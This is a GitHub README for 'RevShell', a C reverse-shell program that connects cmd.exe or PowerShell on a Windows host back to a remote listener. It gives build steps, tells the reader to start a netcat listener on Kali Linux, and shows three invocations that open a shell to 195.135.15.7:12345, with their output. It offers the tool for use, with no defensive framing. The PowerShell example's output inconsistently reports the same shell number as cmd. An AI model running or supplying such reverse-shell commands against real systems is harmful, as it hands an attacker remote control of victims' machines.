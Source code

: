 # RevShell

## Description
This is a simple C-based reverse shell used to open a _CMD_ or _PowerShell_ session from Windows to Linux/Windows/OSx.

## Features
- [x] Open a reverse shell using cmd.exe
- [x] Open a reverse shell using powershell.exe

## How To Compile The Code
1. Download and install VisualStudio 2019 - Community Edition
2. Clone this repository to a local folder
3. Open the file "RevShell.sln"
4. Press F6 to compile the code
5. Enjoy :)

## Examples
Before starting the executable make sure you have started a listener on your favorite (Linux) distribution. I use netcat on Kali Linux.

> Open a CMD session
```
C:\RevShell> RevShell.exe 195.135.15.7 12345
[+] SELECTED SHELL:     0
[+] VALID IP ADDRESS:   195.135.15.7
[+] VALID IP PORT:      12345
```

> Open a CMD session
```
C:\RevShell> RevShell.exe 195.135.15.7 12345 cmd
[+] SELECTED SHELL:     0
[+] VALID IP ADDRESS:   195.135.15.7
[+] VALID IP PORT:      12345
```

> Open a PowerShell session
```
C:\RevShell> RevShell.exe 195.135.15.7 12345 powershell
[+] SELECTED SHELL:     0
[+] VALID IP ADDRESS:   195.135.15.7
[+] VALID IP PORT:      12345
```

![RevShell.exe in action](https://github.com/AleDiBen/RevShell/blob/master/example.png)\
_RevShell.exe in action._
